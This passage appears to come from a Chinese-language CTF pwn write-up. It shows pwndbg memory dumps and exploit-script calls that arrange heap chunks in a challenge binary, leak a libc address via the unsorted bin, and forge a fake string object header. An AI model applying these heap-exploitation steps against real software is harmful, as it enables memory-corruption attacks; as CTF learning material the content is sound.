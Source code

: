 ```bash
pwndbg> tele 0x5b35e9aef850 
00:0000│  0x5b35e9aef850 ◂— 0x5b35e9aef
01:0008│  0x5b35e9aef858 ◂— 0x9d6f99e477f2dda3
02:0010│  0x5b35e9aef860 ◂— 'llllllllllllllllllllllllllllllllllllllllllllllll'
... ↓     5 skipped
pwndbg> tele 0x5b35e9af05c0
00:0000│  0x5b35e9af05c0 ◂— 0xa30 /* '0\n' */
01:0008│  0x5b35e9af05c8 ◂— 0x51 /* 'Q' */
02:0010│  0x5b35e9af05d0 ◂— 'llllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllll'
... ↓     5 skipped

```

通过这样布局即可解决

```bash
add_company(b"wait1 ",str(1200).encode())
add_company(b"wait2 ",str(1200).encode())
add_company(b"wait3 ",str(1200).encode())
add_company(b"wait4 ",str(1200).encode())

sell_company(b"wait3 ") 
sell_company(b"wait2 ") 
sell_company(b"wait1 ")   
sell_company(b"wait4 ")   
```

然后找找堆上是否有残留libc地址或者栈地址，改company到那里的一定偏移去。再worker\_info泄露， 傻逼了，突然想到，直接分配个company的字符堆能到unsortedbin就行

但糟糕的是如果按照如下布局，`0x64985160e6c0`会被free，导致原来的string被占据了些大的地址，所以得保证`0x64985160e6c0`是最后一个才行

```bash
#0x50 [  3]: 0x64985160d600 —▸ 0x64985160e6c0 —▸ 0x64985160e850 ◂— 0

#0x50 [  4]: 0x64985160f5c0 —▸ 0x64985160d600 —▸ 0x64985160e6c0 —▸ 0x64985160e850 ◂— 0

pwndbg> tele 0x5be0f554e6c0
00:0000│  0x5be0f554e6c0 ◂— 0x5be0f554e
01:0008│  0x5be0f554e6c8 ◂— 0x18ebbc21ea61c452
02:0010│  0x5be0f554e6d0 ◂— 0x6c6c6c6c6c6c6c6c ('llllllll')
... ↓     4 skipped
07:0038│  0x5be0f554e6f8 —▸ 0x5be0f55504a0 ◂— 0
```

但依然不满足project中的头部的string对象格式，但我们可以构造，直接对照一个搬过来就行，然后将头部的string地址设置为泄露libc的地址，然后为了避免company出现访问和string对象问题，将其设置为存在的company

```bash
pwndbg> tele 0x584af5e746c0  12
00:0000│  0x584af5e746c0 ◂— 0x6c6c6c6c6c6c6c6c ('llllllll')
... ↓     6 skipped
07:0038│  0x584af5e746f8 —▸ 0x584af5e764a0 ◂— 0

```

